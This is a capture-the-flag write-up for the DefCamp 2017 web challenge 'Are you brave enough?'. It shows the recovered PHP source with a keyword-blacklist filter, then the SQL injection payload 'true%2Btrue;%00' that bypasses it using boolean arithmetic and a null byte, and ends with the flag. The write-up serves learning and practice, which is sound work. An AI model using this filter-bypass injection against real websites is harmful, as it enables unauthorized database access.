 # Are you brave enough?
Author: pyth0n33

The goal of this challenge was to exploit an SQL injection with various filters.

## Challenge description
```text
You have a simple challenge, proove your web skills and get the flag.
```

## Solution
When openin the site there was only the word Nop. on the site. Looking at the source revealed only this:
```html
<h3>Nop.</h3>
```
I quickly tried to open https://brave.dctf-quals-17.def.camp/index.php and then I was sure that this was the file the server displayd when opening the URL. I tried different URLs like index.php.bak and index.php.old to find the source code of the file.
Eventually I got the source with https://brave.dctf-quals-17.def.camp/index.php~ 
```php
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {    
    die('<h3>Nop.</h3>');
}
```
This code makes pretty clear what the goal of this challenge is: get database information with an SQL injection. As the key parameter is filtered we have to use the id parameter.
What makes the exploit harder is the filter. There are many characters and words that are not allowed.
Because we can't use select statements we have to get rid of the statement after $id. Normally I would use a SQL command for this. But -- and /* characters are filtered.
The second problem is that we can't use numbers for the id parameter, because numbers are filtered too.
Finally I was able to solve the challenge with this SQL injection:
```
true%2Btrue;%00

https://brave.dctf-quals-17.def.camp/index.php?id=true%2Btrue;%00
```
%2B is the url encoded + that we use because the plus sign is filtered. True + True is equal to two in SQL. So with this we can inject numbers. %00 is the null byte character.
Older PHP versions are vulnerable to null byte injection that means they stop reading a string after a null byte appears.

```
DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
```